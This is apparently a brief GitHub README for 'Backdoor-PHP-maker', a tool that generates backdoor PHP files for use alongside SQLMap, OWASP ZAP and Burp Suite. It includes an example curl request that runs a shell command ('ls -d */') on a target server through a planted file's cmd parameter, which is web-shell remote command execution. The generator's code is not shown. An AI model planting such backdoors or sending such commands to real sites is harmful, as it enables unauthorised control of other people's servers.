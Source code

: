 # Backdoor-PHP-maker
Create a backdoor PHP file easily for use in other apps such as SQLMap, OWASP ZAP, Burp Suite & More.

Use curl command to explore. 
Example:
  curl http://www.websitehere.com/your_file.php?cmd=ls -d */
